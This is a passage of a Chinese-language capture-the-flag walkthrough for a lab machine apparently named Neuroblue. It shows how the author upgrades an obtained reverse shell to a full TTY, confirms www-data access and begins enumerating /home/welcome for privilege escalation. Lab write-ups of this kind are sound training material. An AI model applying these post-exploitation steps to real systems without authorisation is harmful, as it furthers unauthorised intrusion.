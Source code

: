 * **稳定 Shell:** 获得的初始 Shell 通常功能有限。使用标准技术提升为功能更全的 TTY Shell。

  ```bash
  # 在反弹 shell 中执行
  script /dev/null -c bash  
  # 按 Ctrl+Z 暂停
  # 在 Kali 终端执行
  stty raw -echo; fg  
  # 按 Enter 恢复，然后继续在反弹 shell 中执行
  reset xterm  
  export TERM=xterm  
  export SHELL=/bin/bash  
  stty rows 40 columns 178 # 可选，调整大小
  ```

* **确认用户:** 检查当前用户身份。

  ```bash
  www-data@Neuroblue:/var/www/html/wordpress/vulnerabilities/exec$ id
  uid=33(www-data) gid=33(www-data) groups=33(www-data) 
  ```

  成功以 `www-data` 用户身份获得初始访问权限。

## 4. 权限提升 (`www-data` -> `welcome` -> `root`)

### 4.1. 以 `www-data` 身份进行信息收集 (Enumeration as `www-data`)

* **探索家目录:** 检查 `/home` 目录。

  ```bash
  www-data@Neuroblue:/var/www/html/wordpress/vulnerabilities/exec$ cd /home/
  www-data@Neuroblue:/home$ ls -al
  total 12
  drwxr-xr-x  3 root    root    4096 Apr 11 22:27 .
  drwxr-xr-x 18 root    root    4096 Mar 18 20:37 ..
  drwxrwxrwx  2 welcome welcome 4096 Apr 30 09:17 welcome
  ```

* **检查 `welcome` 目录:** 查看 `welcome` 用户的主目录内容。

  ```bash
  www-data@Neuroblue:/home$ cd welcome/
  www-data@Neuroblue:/home/welcome$ ls -al
  total 48
  drwxrwxrwx 2 welcome welcome  4096 Apr 30 09:17 .
  drwxr-xr-x 3 root    root     4096 Apr 11 22:27 ..
  lrwxrwxrwx 1 root    root        9 Apr 30 07:10 .bash_history -> /dev/null
  -rw-r--r-- 1 welcome welcome   220 Apr 11 22:27 .bash_logout
  -rw-r--r-- 1 welcome welcome  3526 Apr 11 22:27 .bashrc
  -rw-r--r-- 1 welcome welcome   807 Apr 11 22:27 .profile
  lrwxrwxrwx 1 root    root        9 Apr 30 09:17 .viminfo -> /dev/null
  -rwx--x--x 1 root    root    22208 Apr 30 08:09 2048_hack # <-- 可执行文件
  -rw-r--r-- 1 root    root       44 Apr 30 07:10 user.txt # <-- 用户 Flag
  ```
